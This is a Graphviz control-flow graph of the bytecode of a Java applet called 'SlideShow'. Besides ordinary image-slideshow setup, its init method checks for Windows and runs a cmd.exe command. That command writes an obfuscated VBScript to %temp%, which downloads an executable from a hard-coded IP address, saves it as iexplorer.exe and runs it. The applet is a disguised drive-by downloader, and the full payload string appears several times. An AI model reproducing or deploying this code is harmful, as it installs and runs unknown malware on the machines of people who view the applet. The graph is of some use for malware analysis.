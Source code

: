 digraph "" {
    "r0 := @this: SlideShow"
    "push \"os.name\""
    "r0 := @this: SlideShow"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\winconfig.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\winconfig.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\winconfig.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\winconfig.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\winconfig.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\winconfig.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\winconfig.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\winconfig.vbs & echo N8VObVe37C.Open >> %temp%\\winconfig.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\winconfig.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\winconfig.vbs & echo Function BinaryGetURL(URL) >> %temp%\\winconfig.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\winconfig.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\winconfig.vbs & echo YK16ggjQQ.Send >> %temp%\\winconfig.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\winconfig.vbs & echo End Function >> %temp%\\winconfig.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\iexplorer.exe\\\" >> %temp%\\winconfig.vbs & start %temp%\\winconfig.vbs http://64.31.58.224/jappy.exe %temp%\\iexplorer.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\winconfig.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\winconfig.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\winconfig.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\winconfig.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\winconfig.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\winconfig.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\winconfig.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\winconfig.vbs & echo N8VObVe37C.Open >> %temp%\\winconfig.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\winconfig.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\winconfig.vbs & echo Function BinaryGetURL(URL) >> %temp%\\winconfig.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\winconfig.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\winconfig.vbs & echo YK16ggjQQ.Send >> %temp%\\winconfig.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\winconfig.vbs & echo End Function >> %temp%\\winconfig.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\iexplorer.exe\\\" >> %temp%\\winconfig.vbs & start %temp%\\winconfig.vbs http://64.31.58.224/jappy.exe %temp%\\iexplorer.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\winconfig.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\winconfig.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\winconfig.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\winconfig.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\winconfig.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\winconfig.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\winconfig.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\winconfig.vbs & echo N8VObVe37C.Open >> %temp%\\winconfig.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\winconfig.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\winconfig.vbs & echo Function BinaryGetURL(URL) >> %temp%\\winconfig.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\winconfig.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\winconfig.vbs & echo YK16ggjQQ.Send >> %temp%\\winconfig.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\winconfig.vbs & echo End Function >> %temp%\\winconfig.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\iexplorer.exe\\\" >> %temp%\\winconfig.vbs & start %temp%\\winconfig.vbs http://64.31.58.224/jappy.exe %temp%\\iexplorer.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <SlideShow: int w>"
    "push -1"->"fieldput <SlideShow: int w>";
    "fieldput <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <SlideShow: int h>"
    "push -1"->"fieldput <SlideShow: int h>";
    "fieldput <SlideShow: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <SlideShow: boolean whb>"
    "push 0"->"fieldput <SlideShow: boolean whb>";
    "fieldput <SlideShow: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int dly>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int dly>";
    "fieldput <SlideShow: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int wp>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int wp>";
    "fieldput <SlideShow: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int sc>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int sc>";
    "fieldput <SlideShow: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int modd>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int modd>";
    "fieldput <SlideShow: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int modd>"
    "load.r r0"->"fieldget <SlideShow: int modd>";
    "push 2"
    "fieldget <SlideShow: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <SlideShow: int modd>";
    "fieldput <SlideShow: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <SlideShow: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <SlideShow: java.awt.MediaTracker tracker>";
    "fieldput <SlideShow: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <SlideShow: int i>"
    "push 1"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String ivalign>";
    "fieldput <SlideShow: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String ialign>";
    "fieldput <SlideShow: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <SlideShow: int i>"
    "load.r r0"->"fieldget <SlideShow: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <SlideShow: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String bs>";
    "fieldput <SlideShow: java.lang.String bs>"->"load.r r0";
    "fieldget <SlideShow: java.lang.String bs>"
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <SlideShow: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldput <SlideShow: int num>"
    "fieldget <SlideShow: int i>"->"fieldput <SlideShow: int num>";
    "fieldput <SlideShow: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int num>"
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <SlideShow: java.awt.Image[] img>"
    "newarray"->"fieldput <SlideShow: java.awt.Image[] img>";
    "fieldput <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] imgw>"
    "newarray"->"fieldput <SlideShow: int[] imgw>";
    "fieldput <SlideShow: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] imgh>"
    "newarray"->"fieldput <SlideShow: int[] imgh>";
    "fieldput <SlideShow: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] dur>"
    "newarray"->"fieldput <SlideShow: int[] dur>";
    "fieldput <SlideShow: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <SlideShow: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <SlideShow: java.awt.Image[] img>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Image[] img>";
    "fieldget <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <SlideShow: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <SlideShow: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <SlideShow: java.awt.MediaTracker tracker>";
    "fieldget <SlideShow: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Image[] img>";
    "fieldget <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "arrayread.r"
    "fieldget <SlideShow: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "push 5"
    "fieldget <SlideShow: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <SlideShow: int durum>"
    "push 0"->"fieldput <SlideShow: int durum>";
    "fieldput <SlideShow: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <SlideShow: int w>";
    "fieldput <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <SlideShow: int h>";
    "fieldput <SlideShow: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int w>"
    "load.r r0"->"fieldget <SlideShow: int w>";
    "fieldget <SlideShow: int w>"->"load.r r0";
    "fieldget <SlideShow: int h>"
    "load.r r0"->"fieldget <SlideShow: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <SlideShow: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <SlideShow: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <SlideShow: java.awt.Image offi>";
    "fieldput <SlideShow: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: java.awt.Image offi>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <SlideShow: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <SlideShow: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <SlideShow: java.awt.Graphics offg2>";
    "fieldput <SlideShow: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <SlideShow: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Graphics offg2>";
    "fieldget <SlideShow: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int w>";
    "fieldget <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <SlideShow: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <SlideShow: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <SlideShow: java.awt.Container container>";
    "fieldput <SlideShow: java.awt.Container container>"->"load.r r0";
    "fieldget <SlideShow: java.awt.Container container>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "instanceof"
    "fieldget <SlideShow: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <SlideShow: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <SlideShow: java.awt.Container container>";
    "fieldput <SlideShow: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "checkcast"
    "fieldget <SlideShow: java.awt.Container container>"->"checkcast";
    "fieldput <SlideShow: java.awt.Frame frm>"
    "checkcast"->"fieldput <SlideShow: java.awt.Frame frm>";
    "fieldput <SlideShow: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <SlideShow: boolean whb>";
    "return"
    "fieldput <SlideShow: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".gif\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".png\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
